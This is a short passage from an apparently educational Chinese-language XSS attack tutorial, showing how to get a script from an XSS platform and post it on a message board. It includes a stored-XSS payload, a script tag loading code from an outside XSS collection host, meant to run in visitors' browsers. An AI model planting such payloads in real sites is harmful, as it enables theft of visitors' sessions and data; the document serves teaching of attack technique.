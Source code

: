 - 选择需要的功能模块

![image-20210920122624961](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20XSS%E4%BB%8B%E7%BB%8D.assets/image-20210920122624961.png)

- 获取xss脚本

![image-20210920122714706](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20XSS%E4%BB%8B%E7%BB%8D.assets/image-20210920122714706.png)

```html
<script src=http://xss.iproute.cn/0Esg1g?1632111988></script>
```

### 插入xss代码

在留言板中进行留言，留言的内容中必须包含xss脚本

![image-20210920123404046](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20XSS%E4%BB%8B%E7%BB%8D.assets/image-20210920123404046.png)
